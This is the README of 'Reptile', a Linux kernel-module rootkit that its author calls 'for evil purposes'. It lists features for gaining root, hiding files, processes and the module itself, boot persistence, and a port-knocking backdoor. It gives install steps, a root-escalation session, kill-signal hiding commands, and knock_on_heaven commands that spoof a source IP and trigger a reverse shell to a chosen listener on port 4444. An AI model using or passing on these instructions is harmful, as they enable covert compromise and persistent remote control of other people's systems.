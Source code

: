 # Reptile

Reptile is a LKM rootkit for evil purposes. If you are searching stuff just for study purposes see my [rootkit_demonstration](https://github.com/f0rb1dd3n/papers/tree/master/rootkit_demonstration)

## Features

- Give root to unprivileged users
- Hide files and directories
- Hide files contents
- Hide processes
- Hide himself
- Boot persistence
- Heaven's door - A ICMP/UDP port-knocking backdoor
- Client to knock on heaven's door :D
    
## Install

```
apt-get install linux-headers-$(uname -r)
https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
./installer.sh install
```

## Usage
### Getting root privileges

```
hax@Debian:~$ id
uid=1000(hax) gid=1000(hax) grupos=1000(hax),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth),118(scanner)
hax@Debian:~$ /reptile/r00t
You got super powers!

root@Debian:/home/hax# id
uid=0(root) gid=0(root) groups=0(root)
```

### Hiding

- Hide reptile module: `kill -50 0`
- Hide/unhide process: `kill -49 <PID>`
- Hide files contents:
  - All content between the hide tags will be hidden

Example:
```
#<reptile> 
content to hide 
#</reptile>
```

### Knocking on heaven's door

Heaven's door is a ICMP/UDP port-knocking backdoor used by Reptile. To access the backdoor you can use the client: 
```
Knock Knock on Heaven's Door
Writen by: F0rb1dd3n

Usage: ./knock_on_heaven <args>

-x      protocol (ICMP/UDP)
-s      Source IP address (You can spoof)
-t      Target IP address
-p      Source Port
-q      Target Port
-d      Data to knock on backdoor: "<key> <reverse IP> <reverse Port>"
-l      Launch listener

[!] ICMP doesn't need ports

ICMP: ./knock_on_heaven -x icmp -s 192.168.0.2 -t 192.168.0.3 -d "F0rb1dd3n 192.168.0.4 4444" -l
UDP:  ./knock_on_heaven -x udp  -s 192.168.0.2 -t 192.168.0.3 -p 53 -q 53 -d "F0rb1dd3n 192.168.0.4 4444" -l

```

## Disclaimer

Some functions of this module is based on another rootkits. Please see the references!

## References

- “[LKM HACKING](http://www.ouah.org/LKM_HACKING.html)”, The Hackers Choice (THC), 1999;
- https://github.com/m0nad/Diamorphine.git
- https://github.com/David-Reguera-Garcia-Dreg/enyelkm.git
- https://github.com/maK-/maK_it-Linux-Rootkit
- “[Abuse of the Linux Kernel for Fun and Profit](http://phrack.org/issues/50/5.html)”, Halflife, Phrack 50, 1997;
- https://ruinedsec.wordpress.com/2013/04/04/modifying-system-calls-dispatching-linux/

## Contributing

I am open to receiving contributions. If you can contribute with this project, discuss the contribution via e-mail or open an issue, fork the project and make a pull request. I will evaluate pull requests and merge to the project.
